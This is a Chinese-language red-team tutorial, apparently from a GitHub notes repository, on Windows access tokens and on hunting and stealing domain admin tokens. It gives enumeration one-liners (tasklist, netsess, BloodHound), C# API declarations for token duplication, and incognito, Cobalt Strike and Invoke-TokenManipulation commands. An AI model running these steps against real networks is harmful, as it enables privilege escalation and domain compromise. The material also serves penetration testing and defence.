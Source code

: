 # 域管进程Token查找与窃取

### Token介绍

- **访问令牌**

  访问令牌(Acess Token)是描述进程或线程安全上下文的一个对象。令牌中的信息包括与进程或线程关联的用户帐户的标识和特权。当用户登录时，系统通过将用户密码与安全数据库中存储的信息进行比较来验证用户密码。如果密码已通过身份验证，则系统将生成访问令牌。代表该用户执行的每个进程都有此访问令牌的副本。

  当线程与安全对象进行交互或尝试执行需要特权的系统任务时，系统使用访问令牌来标识用户。访问令牌包含以下信息：

  - 用户帐户的安全标识符(SID)
  - 用户所属的组的SID
  - 登录SID--标识当前登录会话
  - 用户或用户组拥有的特权列表
  - 所有者SID
  - 主要组的SID
  - 用户创建安全对象而不指定安全描述符时系统使用的默认[DACL](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists)
  - 访问令牌的来源
  - 令牌是主要令牌还是模拟令牌
  - 限制SID的可选列表
  - 当前的模拟级别
  - 其他统计

- **令牌创建**

  当用户以交互方式登录或尝试与运行Windows的计算机建立网络连接时，登录过程将对用户的凭据进行身份验证。如果身份验证成功，则该过程将为用户返回一个SID，并为用户的安全组返回一个SID列表。计算机上的本地安全机构（LSA）使用此信息来创建**访问令牌**。这包括登录过程返回的SID，以及由本地安全策略分配给用户和用户安全组的用户权限列表。

  在LSA创建主要访问令牌之后，访问令牌的副本将附加到代表用户执行的每个线程和进程上。每当线程或进程与安全对象进行交互或尝试执行需要用户权限的系统任务时，操作系统都会检查与该线程关联的访问令牌以确定授权级别。

  访问令牌有两种，**主要令牌**(Primary Token)和**模拟令牌**(Impersonation Token)。每个进程都有一个主要令牌，用于描述与该进程关联的用户帐户的安全上下文。通常将主要访问令牌分配给流程，以表示该流程的默认安全信息。另一方面，模拟令牌通常用于客户端和服务器方案。模拟令牌使线程可以在与拥有该线程的进程的安全上下文不同的安全上下文中运行。**令牌只有重启或关机时清除，否则一直驻留在内存中**。

  

### 查找域管Token

因为令牌会驻留在内存和令牌代表用户执行的线程和进程上，所以通过枚举域管登录Session和域管进程获取域管Token。

- **Tasklist**

  使用net group “Domain Admins” /domain查询域管理组成员，查看tasklist /v命令列出进程的详细信息里包含进程所有者

  ![](media/tasklist.png)

  列出远程机器进程列表

  `FOR /F %i in (ips.txt) DO @echo [+] %i && @tasklist /V /S %i /U user /P password 2>NUL > output.txt`

- **Netsess**

  使用netsess对每个域机器进行枚举，查找域管session

  ![](./media/netsess.png)

  Domain Admin列表与活动会话列表交叉引用，以确定哪些IP地址上有活动的域令牌

  `FOR /F %i in (dcs.txt) do @echo [+] Querying DC %i && @netsess -h %i 2>nul > sessions.txt &&`

  `FOR /F %a in (admins.txt) DO @type sessions.txt | @findstr /I %a`

  调用了[NetSessionEnum](https://docs.microsoft.com/zh-cn/windows/win32/api/lmshare/nf-lmshare-netsessionenum?redirectedfrom=MSDN)接口

-  **BloodHound**

  采用轮询的方式查询域内Session

  `Invoke-BloodHound -CollectionMethod SessionLoop -LoopDelay 60 -MaxLoopTime 10`



### 窃取Token

- **基本原理**

  以进程所有者相同权限或者更高权限获取Token，利用获取到的token句柄启动新的进程。使用到的API:

  

  获取进程句柄

  ```c#
  [DllImport("kernel32.dll")]
          static extern IntPtr OpenProcess(ProcessAccessFlags dwDesiredAccess, [MarshalAs(UnmanagedType.Bool)] bool bInheritHandle, uint dwProcessId);
  ```

  根据进程句柄获取Token句柄

  ```c#
          [DllImport("advapi32.dll", SetLastError = true)]
          [return: MarshalAs(UnmanagedType.Bool)]
          static extern bool OpenProcessToken(IntPtr ProcessHandle, TokenAccessFlags DesiredAccess, out IntPtr TokenHandle);
  ```

  调整Token权限

  ```c#
          [DllImport("advapi32.dll", SetLastError = true)]
          [return: MarshalAs(UnmanagedType.Bool)]
          static extern bool AdjustTokenPrivileges(IntPtr TokenHandle,
             [MarshalAs(UnmanagedType.Bool)]bool DisableAllPrivileges,
             ref TOKEN_PRIVILEGES NewState,
             UInt32 Zero,
             IntPtr Null1,
             IntPtr Null2);
  ```

  复制Token

  ```c#
          [DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
          extern static bool DuplicateTokenEx(
              IntPtr hExistingToken,
              TokenAccessFlags dwDesiredAccess,
              IntPtr lpThreadAttributes,
              SECURITY_IMPERSONATION_LEVEL ImpersonationLevel,
              TOKEN_TYPE TokenType,
              out IntPtr phNewToken);
  ```

  使用复制的token创建新进程

  ```c#
          [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
          static extern bool CreateProcessAsUserW(
              IntPtr hToken,
              string lpApplicationName,
              string lpCommandLine,
              IntPtr lpProcessAttributes,
              IntPtr lpThreadAttributes,
              bool bInheritHandles,
              CreationFlags dwCreationFlags,
              IntPtr lpEnvironment,
              string lpCurrentDirectory,
              ref STARTUPINFO lpStartupInfo,
              out PROCESS_INFORMATION lpProcessInformation);
  ```

  创建新进程还可以使用

  ```c#
          [DllImport("advapi32.dll", EntryPoint = "CreateProcessWithTokenW", SetLastError = true,CharSet = CharSet.Unicode,CallingConvention = CallingConvention.StdCall)]
          private extern static bool CreateProcessWithTokenW(
           IntPtr hToken,
           uint dwLogonFlags,
           String lpApplicationName,
           String lpCommandLine,
           uint dwCreationFlags,
           IntPtr lpEnvironment,
           String lpCurrentDirectory,
           ref STARTUPINFO lpStartupInfo,
           out PROCESS_INFORMATION lpProcessInformation);
  ```

  

#### 利用工具

##### Cobalt Strike

使用steal_token命令指定pid即可窃取进程的token，窃取之后，默认当前becon具有该token的权限

##### Tokenvator

[Tokenvator](https://github.com/0xbadjuju/Tokenvator/tree/master/Tokenvator)是netspi开发的一套Token利用工具，[netspi](https://blog.netspi.com/)干货蛮多的，可以关注一下。

<img src="./media/20200115200437.jpg" style="zoom:50%;" />

##### incognito

查看token

`incognito.exe list_tokens -u`

以token启动进程

`incognito.exe execute -c "xxx\xxx" calc.exe`

msf集成了incognito

##### Invoke-TokenManipulation

列举token

`Invoke-TokenManipulation -Enumerate`

复制线程token启动新线程

`Invoke-TokenManipulation -CreateProcess "cmd.exe" -ThreadId 500`
